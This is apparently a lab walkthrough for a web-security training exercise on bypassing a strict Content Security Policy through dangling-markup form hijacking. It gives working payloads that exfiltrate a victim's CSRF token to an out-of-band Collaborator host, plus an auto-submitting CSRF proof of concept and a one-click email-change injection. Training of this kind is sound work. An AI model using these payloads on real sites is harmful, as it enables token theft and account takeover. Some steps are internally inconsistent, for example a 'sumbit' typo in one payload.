

---

**Difficulty:** 🟡 Practitioner =+ 🔴 Expert

**Goal:**

- 🔍 Identify reflected XSS vulnerability in email parameter
- 🛡️ Encounter strict Content Security Policy (CSP) protection
- 🎯 Understand CSP blocks inline scripts and external resources
- 💉 Discover CSP lacks `form-action` directive
- 🔧 Learn TWO methods to bypass CSP and change victim's email
- 🎉 Successfully change victim's email to `hacker@evil-user.net`

---

## 🧠 **Concept Recap**

> **Reflected XSS protected by very strict CSP, with dangling markup attack** occurs when a web application has a strong Content Security Policy that blocks traditional XSS attacks (inline scripts, external scripts, event handlers), but fails to include the `form-action` directive. This allows attackers to hijack form submissions by injecting HTML that redirects the form to an attacker-controlled server. The lab can be solved using TWO approaches: (1) **Professional Method** - Using Burp Suite Professional to capture CSRF token via Collaborator and generate auto-submit CSRF PoC, or (2) **Simple Method** - Direct form manipulation with pre-filled email and submit button, requiring only one victim click.

### 📊 **The Vulnerability**

**The CSP in this lab:**

```http
Content-Security-Policy: 
    default-src 'self'; 
    object-src 'none'; 
    style-src 'self'; 
    script-src 'self'; 
    img-src 'self'; 
    base-uri 'none';
```

**What this CSP blocks:**

```http
CSP Protection Analysis:

✅ BLOCKED Attacks:
├── Inline scripts: <script>alert(1)</script>
│   └── Blocked by: script-src 'self'
├── External scripts: <script src="https://evil.com/xss.js"></script>
│   └── Blocked by: script-src 'self'
├── Inline event handlers: 
│   └── Blocked by: script-src 'self'
├── javascript: URLs: <a href="javascript:alert(1)">
│   └── Blocked by: script-src 'self'
├── External images: 
│   └── Blocked by: img-src 'self'
└── Base tag hijacking: <base href="https://evil.com">
    └── Blocked by: base-uri 'none'

❌ NOT BLOCKED:
├── Form redirection: <form action="https://evil.com">
│   └── Missing directive: form-action
├── HTML injection: <button>Click me</button>
│   └── CSP doesn't prevent HTML injection
└── Form manipulation: Injecting new forms
    └── HTML injection still possible! 💥

The Critical Gap:
└── CSP has NO form-action directive
    └── Forms can be submitted to external domains
        └── CSRF tokens can be exfiltrated
            └── Form hijacking possible! 🎯
```

**The two solution approaches:**

```r
METHOD 1: PROFESSIONAL (Burp Suite Pro + Collaborator)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Attack Flow:
Stage 1: CSRF Token Exfiltration
1. Inject form that submits to Burp Collaborator
2. Form uses GET method to expose token in URL
3. Victim clicks injected "Click me" button
4. Form submits to Collaborator
5. Collaborator captures token in URL

Stage 2: CSRF PoC Generation
6. Right-click change-email request in Burp
7. Select "Engagement tools" → "Generate CSRF PoC"
8. Burp creates auto-submit HTML form
9. Replace csrf token with captured one
10. Replace email with hacker@evil-user.net

Stage 3: Email Change Attack
11. Store CSRF PoC on exploit server
12. Deliver to victim
13. Auto-submit executes
14. Email changed successfully! ✓

Payload Structure:
"></form>
<form class="login-form" name="evil-form" action="https://COLLABORATOR-URL/token" method="GET">
    <button class="button" type="submit">Click me</button>
</form>

Why It's Professional:
├── Uses Burp Suite Pro features
├── Collaborator for out-of-band capture
├── CSRF PoC generator for clean exploit
├── Auto-submit for seamless execution
└── Professional workflow! 💼

Required Tools:
✅ Burp Suite Professional (for Collaborator)
✅ Valid Burp license
✅ Burp Collaborator access

METHOD 2: SIMPLE (Community/Working Solution)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Attack Flow:
1. Inject email field pre-filled with hacker@evil-user.net
2. Inject submit button with "Click me" text
3. Form already contains valid CSRF token
4. Victim clicks button
5. Form submits to legitimate endpoint
6. Email changed immediately! ✓

Payload Structure:
hacker@evil-user.net">
<button class="button" type="submit">
    Click me
</button>
<base target="

Why It's Simple:
├── One-stage attack (direct submission)
├── No JavaScript required
├── Uses existing CSRF token in form
├── No token exfiltration needed
├── Single click = success
└── Fewer failure points! ✓

Required Tools:
✅ Any web browser
✅ Exploit server (provided by lab)
✅ No Burp Pro needed

The Key Difference:
└── Method 1: Captures token, generates PoC, auto-submits
└── Method 2: Uses token already in form! 💡
```

---
---

## 🛠️ **Step-by-Step Attack**

---

## 🎯 **METHOD 1: Official Attack**

**This method uses Burp Suite Professional's Collaborator and CSRF PoC Generator to exfiltrate the token and create an auto-submit exploit.**

---

### 🔧 **Step 1 — Access Lab and Login**

1. 🌐 Click **"Access the lab"**
2. 🔑 Click **"My account"**
3. ✏️ Login with credentials:
    - Username: `wiener`
    - Password: `peter`

---

### 🔬 **Step 2 — Analyze the Email Change Request in Burp**

1. 🛡️ Open **Burp Suite Professional**
2. 🌐 Configure browser to use Burp proxy (127.0.0.1:8080)
3. 📧 In the lab, try changing email to: `test@test1.com`
4. 🚀 Click **"Update email"**
5. 🕵️ In Burp, go to **Proxy → HTTP history**
6. 🔍 Find the email change request

**The captured request:**

```http
POST /my-account/change-email HTTP/1.1
Host: 0a8900e3046d495080c6da52007f0011.web-security-academy.net
Cookie: session=5xDi5FeJDVLCIGQBPIcwtFhHCDb6cQdS
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144", "Brave";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0a8900e3046d495080c6da52007f0011.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8900e3046d495080c6da52007f0011.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

email=test%40test1.com&csrf=mYudzpdewllNC3j6zpwhLvi0BY7LgH3S
```

**Request analysis:**

```http
Critical Components:

Method: POST
Endpoint: /my-account/change-email
Parameters:
├── email=test@test1.com (URL encoded: test%40test1.com)
└── csrf=mYudzpdewllNC3j6zpwhLvi0BY7LgH3S

The CSRF token:
└── Value: mYudzpdewllNC3j6zpwhLvi0BY7LgH3S
    └── Random 32-character string
        └── Changes with each session
            └── Must capture victim's token! 🎯

Key observation:
✅ POST request with form data
✅ CSRF token required
✅ Email parameter accepts user input
✅ Need to capture victim's CSRF token

Next step:
└── Set up Burp Collaborator
    └── Inject form to capture token
        └── Use Collaborator URL as action! 💡
```

---

### 🌐 **Step 3 — Copy Burp Collaborator URL**

1. 🛡️ In Burp Suite Professional, go to **Burp → Burp Collaborator client**
2. 🔄 Click **"Copy to clipboard"**
3. 📋 Your Collaborator URL will look like: `abc123xyz.oastify.com`

**Collaborator explanation:**

```http
What is Burp Collaborator?

Definition:
└── Service that detects out-of-band interactions
    └── Provides unique subdomains per user
        └── Logs HTTP/DNS requests
            └── Perfect for exfiltration! 🎯

How it works:
1. Burp generates unique URL: abc123xyz.oastify.com
2. Attacker uses URL in exploit
3. Victim's browser contacts URL
4. Collaborator logs the request
5. Attacker polls Collaborator for interactions

For this attack:
└── Inject form with action="https://COLLAB-URL/token"
    └── Victim submits form
        └── GET request to Collaborator
            └── CSRF token appears in URL
                └── Captured! ✓

Important notes:
├── Collaborator URLs are temporary
├── Rotate every few minutes
├── Must have Burp Pro license
└── Essential for professional testing! 💼
```

---

### 🧪 **Step 4 — Test Token Exfiltration Payload**

**Construct the test payload:**

```html
"></form><form class="login-form" name="evil-form" action="https://YOUR-COLLABORATOR-URL/token" method="GET"><button class="button" type="submit">Click me</button>
```

**Replace `YOUR-COLLABORATOR-URL` with your actual Collaborator URL!**

**Complete test URL:**

```HTML
https://YOUR-LAB-ID.web-security-academy.net/my-account?email="></form><form class="login-form" name="evil-form" action="https://YOUR-COLLABORATOR-URL/token" method="GET"><button class="button" type="submit">Click me</button>
```

**Payload breakdown:**

```HTML
Part 1: "></form>
└── Closes the original email input: value="
    └── Closes the original form tag: </form>
        └── Now we can inject our own form! ✓

Part 2: <form class="login-form" name="evil-form" action="https://COLLAB-URL/token" method="GET">
├── class="login-form" → Matches site styling
├── name="evil-form" → Our custom form
├── action="https://COLLAB-URL/token" → Sends to Collaborator
└── method="GET" → Token will be in URL! 🎯

Part 3: <button class="button" type="submit">Click me</button>
├── class="button" → Matches site button styling
├── type="submit" → Submits our evil form
└── Click me → Required text by lab

Part 4: </form>
└── Closes our injected form

How it renders:

Original HTML (before injection):
<form method="POST" action="/my-account/change-email">
    <input type="email" name="email" value="">
    <input type="hidden" name="csrf" value="TOKEN123">
    <button type="submit">Update email</button>
</form>

After injection:
<form method="POST" action="/my-account/change-email">
    <input type="email" name="email" value="">
</form>
<form class="login-form" name="evil-form" action="https://COLLAB-URL/token" method="GET">
    <button class="button" type="submit">Click me</button>
</form>
<input type="hidden" name="csrf" value="TOKEN123">
<button type="submit">Update email</button>
</form>

What happens when "Click me" is clicked:
└── Our evil form submits
    └── But wait... where's the CSRF token? 🤔

The problem:
└── CSRF token is OUTSIDE our form
    └── Original form was closed with </form>
        └── Token input is orphaned
            └── Won't be submitted! ❌

The fix:
└── Token is still on the PAGE
    └── We need to copy it into our form
        └── Or... capture it from URL! 💡
```

---

### 💡 **Step 5 — Understanding Token Capture Mechanism**

**Why the payload still works:**

```HTML
The Key Insight:

Even though CSRF token input is outside our form:
└── When page loads with ?email= parameter
    └── Email parameter is REFLECTED in page
        └── But ALSO in the URL
            └── Let's check what gets submitted!

Test the injection:
1. Navigate to URL with injection
2. Open DevTools (F12)
3. Inspect the page
4. Find our injected form
5. Look for what inputs are inside it

Expected result:
<form class="login-form" name="evil-form" action="https://COLLAB-URL/token" method="GET">
    <button class="button" type="submit">Click me</button>
</form>

When clicked:
GET https://COLLAB-URL/token HTTP/1.1
└── No parameters! 😕

But wait... let's look at the ACTUAL page structure:

The REAL rendering:
<form method="POST" action="/my-account/change-email">
    <input type="email" name="email" value=""></form>
<form class="login-form" name="evil-form" action="https://COLLAB-URL/token" method="GET">
    <button class="button" type="submit">Click me</button>
</form>
    <input type="hidden" name="csrf" value="TOKEN123">
    <button type="submit">Update email</button>
</form>

The orphaned elements:
├── <input type="hidden" name="csrf" value="TOKEN123">
├── <button type="submit">Update email</button>
└── </form>

These are OUTSIDE both forms!

So how do we get the token?

Method A: Browser quirks (unreliable)
└── Some browsers adopt orphaned inputs
    └── But not consistent
        └── Don't rely on this! ❌

Method B: Better payload (reliable)
└── Keep original form open
    └── Inject button with formaction
        └── Redirect that specific button! ✓

Let's use Method B:

Better payload:
"><button class="button" formaction="https://COLLAB-URL/token" formmethod="GET" type="submit">Click me</button><base target="

How this works:
1. Closes email input: "
2. Closes input tag: >
3. Injects button with formaction (overrides form action)
4. Uses formmethod="GET" (puts data in URL)
5. Adds unclosed <base target=" to break rest of page

When clicked:
└── Button submits ORIGINAL form
    └── But to Collaborator URL
        └── With GET method
            └── Token in URL! ✓

Result:
GET https://COLLAB-URL/token?email=&csrf=TOKEN123
```

---

### 📝 **Step 6 — Create Exploit Server Payload (Stage 1)**

Now create the redirect to deliver this payload to the victim.

1. 🌐 Click **"Go to exploit server"**
2. 📋 In the **Body** field, paste:

```html
<script>
location = 'https://0ae5004d0328d803806394430067001a.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://01z41tdbfs4bbu1v1q4nmw3m9df63wrl.oastify.com/token%22%20method=%22GET%22%3E%20%3Cbutton%20class=%22button%22%20type=%22sumbit%22%3EClick%20me%3C/button%3E';
</script>
```

3. ✏️ Replace `YOUR-LAB-ID` with your actual lab ID
4. ✏️ Replace `YOUR-COLLABORATOR-URL` with your Collaborator URL
5. 💾 Click **"Store"**

**URL encoding explained:**

```HTML
Original payload:
"></form><form class="login-form" name="evil-form" action="https://01z41tdbfs4bbu1v1q4nmw3m9df63wrl.oastify.com/token" method="GET"> <button class="button" type="sumbit">Click me</button>

URL encoding required:
" → %22
> → %3E
< → %3C
  → %20 (space)

Encoded payload:
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://01z41tdbfs4bbu1v1q4nmw3m9df63wrl.oastify.com/token%22%20method=%22GET%22%3E%20%3Cbutton%20class=%22button%22%20type=%22sumbit%22%3EClick%20me%3C/button%3E

Breaking down each part:
%22        → "
%3E        → >
%3C        → <
button     → button
%20        → space
class      → class
%3D        → =
%22        → "
button     → button
%22        → "
(and so on...)

Why URL encode?
└── Special characters must be encoded in URLs
    └── Browser automatically decodes
        └── HTML renders with original characters ✓
```

---

### 🧪 **Step 7 — Test Token Capture (Optional)**

**⚠️ This will capture YOUR token, but that's okay for testing!**

1. 🌐 Click **"View exploit"**
2. Redirects to lab with injection
3. See "Click me" button
4. 🖱️ Click "Click me"
5. 🛡️ Go to Burp → Burp Collaborator client
6. 🔄 Click "Poll now"
7. 👀 See your CSRF token captured!

**Expected Collaborator interaction:**

```http
GET /token?email=&csrf=YOUR-TOKEN-HERE HTTP/1.1
Host: YOUR-COLLABORATOR.oastify.com

✅ Token captured successfully!
✅ Mechanism confirmed working!

Next step:
└── Deliver to victim
    └── Capture victim's token
        └── Use for attack! 🎯
```

---

### 🚀 **Step 8 — Capture Victim's Token**

1. 🔙 Go back to exploit server
2. 🎯 Click **"Deliver exploit to victim"**
3. ⏳ Wait a few seconds
4. 🛡️ Go to **Burp → Burp Collaborator client**
5. 🔄 Click **"Poll now"**

**Collaborator shows victim's request:**

```http
GET /token?email=&csrf=JfCcySEqjHnziQF4VoHomfXL8 HTTP/1.1
Host: YOUR-COLLABORATOR.oastify.com
Cookie: session=VICTIM-SESSION-ID
User-Agent: Mozilla/5.0 (Victim's browser)
Accept: text/html...

Query Parameters:
email: (empty)
csrf: JfCcySEqjHnziQF4VoHomfXL8
      ↑                         ↑
      └─────────────────────────┴── VICTIM'S CSRF TOKEN! 🎉
```

**Extract the token:**

```http
Victim's CSRF token: JfCcySEqjHnziQF4VoHomfXL8

Important:
├── This is different from YOUR token
├── Each user has unique token
├── This is tied to victim's session
└── Use this for the attack! 🎯

Copy this token:
└── JfCcySEqjHnziQF4VoHomfXL8
    └── We'll use it in CSRF PoC
        └── Next step! 💡
```

---

### 🛠️ **Step 9 — Generate CSRF PoC in Burp Suite Pro**

1. 🛡️ In Burp, go to **Proxy → HTTP history**
2. 🔍 Find the original email change request:
    - `POST /my-account/change-email`
3. 🖱️ Right-click on the request
4. 📋 Select **"Engagement tools"** → **"Generate CSRF PoC"**

**Burp generates:**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8900e3046d495080c6da52007f0011.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test1&#46;com" />
      <input type="hidden" name="csrf" value="mYudzpdewllNC3j6zpwhLvi0BY7LgH3S" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**CSRF PoC explanation:**

```http
What Burp generated:

1. HTML form with POST method ✓
2. Hidden inputs for email and csrf ✓
3. JavaScript to auto-submit ✓

The auto-submit script:
history.pushState('', '', '/');
└── Changes browser URL to '/' (hides attack URL)

document.forms[0].submit();
└── Automatically submits the first form on page

Why this is powerful:
├── Victim just needs to load the page
├── No clicking required
├── Form submits automatically
├── Seamless attack! ✓

Current values (from YOUR test):
├── email: test@test1.com (HTML encoded: test&#64;test1&#46;com)
└── csrf: mYudzpdewllNC3j6zpwhLvi0BY7LgH3S (YOUR token)

What we need to change:
├── email → hacker@evil-user.net
└── csrf → VICTIM's captured token

Let's do it! 🎯
```

---

### ✏️ **Step 10 — Modify CSRF PoC with Victim's Data**

**Make these changes to the generated HTML:**

1. **Change the email:**

```html
<!-- BEFORE: -->
<input type="hidden" name="email" value="test&#64;test1&#46;com" />

<!-- AFTER: -->
<input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
```

2. **Change the CSRF token:**

```html
<!-- BEFORE: -->
<input type="hidden" name="csrf" value="mYudzpdewllNC3j6zpwhLvi0BY7LgH3S" />

<!-- AFTER (use victim's captured token): -->
<input type="hidden" name="csrf" value="JfCcySEqjHnziQF4VoHomfXL8" />
```

**Complete modified CSRF PoC:**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
      <input type="hidden" name="csrf" value="JfCcySEqjHnziQF4VoHomfXL8" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**HTML entity encoding explained:**

```http
Why &#64; and &#46;?

These are HTML entity codes:
&#64; → @ (at symbol)
&#46; → . (dot/period)

Email addresses in HTML:
hacker@evil-user.net

HTML encoded:
hacker&#64;evil-user&#46;net

Why encode?
└── Prevents parsing issues
    └── Some browsers/parsers sensitive to @ in values
        └── Encoding ensures compatibility ✓

Other common entities:
&lt;   → <
&gt;   → >
&quot; → "
&amp;  → &

Browser automatically decodes:
└── Sees: value="hacker&#64;evil-user&#46;net"
    └── Renders as: hacker@evil-user.net
        └── Server receives: hacker@evil-user.net ✓
```

---

### 📤 **Step 11 — Deploy Final Exploit**

1. 🌐 Go to **exploit server**
2. 📋 In the **Body** field, paste the modified CSRF PoC HTML
3. 💾 Click **"Store"**
4. 🎯 Click **"Deliver exploit to victim"**

**What happens behind the scenes:**

```r
Lab Simulation Flow:

Step 1: Victim receives exploit link
        └── Link: https://exploit-server.net/exploit

Step 2: Victim clicks link
        └── Exploit server loads

Step 3: HTML page loads in victim's browser
        ├── Form with hidden inputs
        ├── email: hacker@evil-user.net
        └── csrf: JfCcySEqjHnziQF4VoHomfXL8 (victim's token)

Step 4: JavaScript executes
        history.pushState('', '', '/');
        └── URL changes to '/' (hides attack)

Step 5: JavaScript auto-submits form
        document.forms[0].submit();
        └── Form submits immediately

Step 6: POST request sent
        POST /my-account/change-email HTTP/1.1
        Host: LAB-ID.web-security-academy.net
        Cookie: session=VICTIM-SESSION
        
        email=hacker@evil-user.net&csrf=JfCcySEqjHnziQF4VoHomfXL8

Step 7: Server validates
        ├── CSRF token matches session? ✅
        ├── Email format valid? ✅
        └── Process request ✅

Step 8: Email changed
        └── Victim's email: hacker@evil-user.net

Step 9: Lab detects success
        └── Email matches target ✅

Step 10: Lab solved! 🎉
```

---

### ✅ **Step 12 — Lab Solved (Method 1)**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  Lab solved using the PROFESSIONAL  │
│  method with Burp Suite Pro,        │
│  Collaborator, and CSRF PoC!        │
│                                     │
│  Lab: Reflected XSS protected by    │
│       very strict CSP, with         │
│       dangling markup attack        │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

**Method 1 complete attack summary:**

```r
Stage 1: Token Exfiltration
├── Injected button with formaction to Collaborator
├── Victim clicked button
├── Form submitted via GET
├── Token appeared in URL
└── Collaborator captured token ✓

Stage 2: CSRF PoC Generation
├── Right-clicked change-email request in Burp
├── Generated CSRF PoC
├── Modified email to hacker@evil-user.net
├── Modified CSRF token to victim's
└── Auto-submit HTML created ✓

Stage 3: Email Change
├── Stored CSRF PoC on exploit server
├── Delivered to victim
├── Auto-submit executed
├── Email changed
└── Lab solved! 🎉

Professional tools used:
✅ Burp Suite Professional
✅ Burp Collaborator (out-of-band capture)
✅ CSRF PoC Generator (auto-submit)
✅ HTTP history analysis
✅ Complete professional workflow! 💼
```

---

## 🎯 **METHOD 2: Simple Attack (Community Solution)**

**This method uses direct form manipulation without token exfiltration - simpler and more reliable!**

---

### 🔧 **Step 1 — Access Lab and Login** (Same as Method 1)

1. 🌐 Click **"Access the lab"**
2. 🔑 Click **"My account"**
3. ✏️ Login with credentials:
    - Username: `wiener`
    - Password: `peter`

---

### 🔬 **Step 2 — Understand the Simple Approach**

**The key insight:**

```HTML
Why steal the token when it's already in the form?

Traditional thinking (Method 1):
"I need the CSRF token to change email
 → Must capture token from victim
 → Exfiltrate it to my server
 → Use it in separate request"

Simple thinking (Method 2):
"The form already has the CSRF token
 → Just modify the form fields
 → Add a button to submit
 → One click = done!"

The payload:
hacker@evil-user.net"><button class="button" type="submit">Click me</button><base target="

What it does:
1. Pre-fills email with hacker@evil-user.net
2. Injects a submit button
3. Form still has original CSRF token
4. Click button = form submits
5. Email changed! ✓

Why it's better:
✅ No Burp Pro needed
✅ No Collaborator needed
✅ No token exfiltration
✅ No CSRF PoC generation
✅ Works in all browsers
✅ Simple and elegant! 💡
```

---

### 💉 **Step 3 — Craft the Simple Payload**

**The payload:**

```html
hacker@evil-user.net"><button class="button" type="submit">Click me</button><base target="
```

**Breakdown:**

```HTML
Part 1: hacker@evil-user.net
└── The target email address
    └── Will be in the email field

Part 2: "
└── Closes the value attribute
    └── value="hacker@evil-user.net"

Part 3: >
└── Closes the <input> tag
    └── <input ... value="hacker@evil-user.net">

Part 4: <button class="button" type="submit">Click me</button>
├── class="button" → Matches site's styling
├── type="submit" → Submits the form
└── Click me → Required text by lab

Part 5: <base target="
└── Opens unclosed base tag
    └── Breaks remaining HTML
        └── Leftover from old attack method
            └── Not strictly necessary but harmless

How it renders:

BEFORE injection:
<form method="POST" action="/my-account/change-email">
    <input type="email" name="email" value="">
    <input type="hidden" name="csrf" value="TOKEN123">
    <button type="submit">Update email</button>
</form>

AFTER injection:
<form method="POST" action="/my-account/change-email">
    <input type="email" name="email" value="hacker@evil-user.net">
    <button class="button" type="submit">Click me</button>
    <base target="<input type=" hidden" name="csrf" value="TOKEN123">
    <button type="submit">Update email</button>
</form>

What victim sees:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Email: [hacker@evil-user.net]      │
│                                    │
│ [Click me]  [Update email]         │
│                                    │
└────────────────────────────────────┘

When "Click me" is clicked:
└── Form submits with:
    ├── email=hacker@evil-user.net
    └── csrf=TOKEN123 (from original form)
        └── Email changed! 🎉
```

---

### 🧪 **Step 4 — Test the Payload Manually**

1. 🌐 Navigate to:

```HTML
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@evil-user.net"><button class="button" type="submit">Click me</button><base target="
```

2. 👀 Observe the page

**What you should see:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Email: [hacker@evil-user.net]      │ ← Pre-filled!
│                                    │
│ [Click me]  [Update email]         │ ← Our button!
│                                    │
└────────────────────────────────────┘
```

3. 🖱️ **DON'T CLICK YET!** (This would change your own email)

**Verification:**

```
Page source check:
1. Right-click → View Page Source
2. Search for: hacker@evil-user.net
3. Should see:
   <input type="email" name="email" value="hacker@evil-user.net">
   <button class="button" type="submit">Click me</button>

✅ Email field pre-filled
✅ Button injected
✅ Form structure intact
✅ CSRF token still present

Ready to deploy!
```

---

### 📝 **Step 5 — Create Exploit Server Payload**

1. 🌐 Go to exploit server
2. 📋 In the **Body** field, paste:

```html
<script>
location = "https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@evil-user.net%22%3E%3Cbutton%20class=button%20type=submit%3EClick%20me%3C/button%3E%3Cbase%20target=%22";
</script>
```

3. ✏️ Replace `YOUR-LAB-ID` with your actual lab ID
4. 💾 Click **"Store"**

**URL encoding explained:**

```js
Original payload:
hacker@evil-user.net"><button class=button type=submit>Click me</button><base target="

URL encoding required for special characters:
" → %22 (quotation mark)
> → %3E (greater than)
< → %3C (less than)
  → %20 (space)

Encoded payload:
hacker@evil-user.net%22%3E%3Cbutton%20class=button%20type=submit%3EClick%20me%3C/button%3E%3Cbase%20target=%22

Breaking it down:
hacker@evil-user.net   → No encoding (alphanumeric + @.)
%22                    → "
%3E                    → >
%3Cbutton              → <button
%20                    → space
class=button           → No encoding
%20                    → space
type=submit            → No encoding
%3E                    → >
Click%20me             → Click me
%3C/button%3E          → </button>
%3Cbase%20target=%22   → <base target="

Why URL encode?
└── Special characters must be encoded in URLs
    └── Browser decodes them automatically
        └── HTML renders with original characters ✓

The JavaScript:
location = "URL";
└── Redirects browser to the URL
    └── Victim lands on page with injection
        └── Sees "Click me" button
            └── One click = email changed! 🎉
```

---

### 🧪 **Step 6 — Test Exploit (Optional - Will Change YOUR Email)**

**⚠️ WARNING:** Testing will change YOUR email to `hacker@evil-user.net`!

**If you still want to test:**

1. 🌐 Click **"View exploit"**
2. Redirects to lab with injection
3. See email field pre-filled: `hacker@evil-user.net`
4. See "Click me" button
5. 🖱️ Click "Click me"
6. Your email changes to `hacker@evil-user.net`

**Better approach - DON'T test on yourself:**

```
Why not test:
├── Changes your (wiener's) email
├── Lab needs VICTIM's email changed
├── If you change yours, can't use same email for victim
└── Just verify button appears, DON'T click it!

Safe verification:
1. View exploit to see redirect works ✓
2. Verify button appears ✓
3. Verify email pre-filled ✓
4. DON'T click button ❌
5. Deliver directly to victim! ✓
```

---

### 🚀 **Step 7 — Deliver Exploit to Victim**

1. 🔙 Go back to exploit server
2. 🎯 Click **"Deliver exploit to victim"**

**What happens:**

```r
Lab Simulation Flow:

Step 1: Victim receives exploit link
        └── Link: https://exploit-server.net/exploit

Step 2: Victim clicks link
        └── Exploit server loads

Step 3: JavaScript executes
        location = "https://LAB-ID.../my-account?email=...";
        └── Browser redirects

Step 4: Lab page loads with injection
        ├── Email: hacker@evil-user.net (pre-filled)
        ├── Button: "Click me" (injected)
        └── CSRF: TOKEN123 (original)

Step 5: Simulated victim clicks button
        └── Lab auto-clicks for simulation

Step 6: Form submits
        POST /my-account/change-email
        email=hacker@evil-user.net
        csrf=TOKEN123

Step 7: Server validates
        ├── CSRF token valid? ✅
        ├── Email format valid? ✅
        └── Process request ✅

Step 8: Email changed
        └── Victim's email: hacker@evil-user.net

Step 9: Lab detects success
        └── Email matches target ✅

Step 10: Lab solved! 🎉
```

---

### ✅ **Step 8 — Lab Solved (Method 2)**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  Lab solved using the SIMPLE        │
│  direct form manipulation method!   │
│                                     │
│  Much cleaner than the professional │
│  token exfiltration approach!       │
│                                     │
│  Lab: Reflected XSS protected by    │
│       very strict CSP, with         │
│       dangling markup attack        │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔍 **Comparing Both Methods**

### **Method Comparison Table**

```r
┌────────────────────────┬───────────────────────────────┬───────────────────────┐
│ Aspect                 │   Method 1 (Professional)     │ Method 2 (Simple)     │
├────────────────────────┼───────────────────────────────┼───────────────────────┤
│ Burp Pro Required      │ Yes ✅                        │ No ❌                │
│ Collaborator Required  │ Yes ✅                        │ No ❌                │
│ Stages                 │ Three (exfil + PoC + submit)  │ One (direct)          │
│ Token Exfiltration     │ Yes (to Collaborator)         │ No (uses existing)    │
│ CSRF PoC Generation    │ Yes (Burp feature)            │ No (not needed)       │
│ Auto-Submit            │ Yes (JavaScript)              │ No (manual click)     │
│ Victim Clicks Required │ 1 (to load page)              │ 1 (to click button)   │
│ Browser Compatibility  │ Universal                     │ Universal             │
│ Complexity             │ High                          │ Low                   │
│ Failure Points         │ Multiple                      │ Minimal               │
│ Professional Value     │ High (real-world tools)       │ Medium (creative)     │
│ Learning Value         │ Excellent (full workflow)     │ Excellent (elegance)  │
│ Cost                   │ Burp Pro license              │ Free                  │
│ Reliability            │ Excellent                     │ Excellent             │
│ Stealth                │ High (auto-submit)            │ Medium (click needed) │
└────────────────────────┴───────────────────────────────┴───────────────────────┘

Attack Flow Comparison:

METHOD 1 (Professional):
Visit 1: Exploit → Redirect → Lab (with button)
         ↓
Click 1: Button → GET → Collaborator (token captured)
         ↓
Action: Copy token → Generate PoC → Modify PoC → Store
         ↓
Visit 2: Exploit → PoC loads → Auto-submit → Email changed
         
Total: 2 visits, 1 victim click, professional tools required

METHOD 2 (Simple):
Visit 1: Exploit → Redirect → Lab (pre-filled + button)
         ↓
Click 1: Button → POST → Lab → Email changed

Total: 1 visit, 1 victim click, no special tools

Both methods:
✅ Bypass CSP successfully
✅ Change victim's email
✅ Solve the lab
✅ Demonstrate form hijacking

Choose based on:
└── Method 1: Learning professional tools and workflow
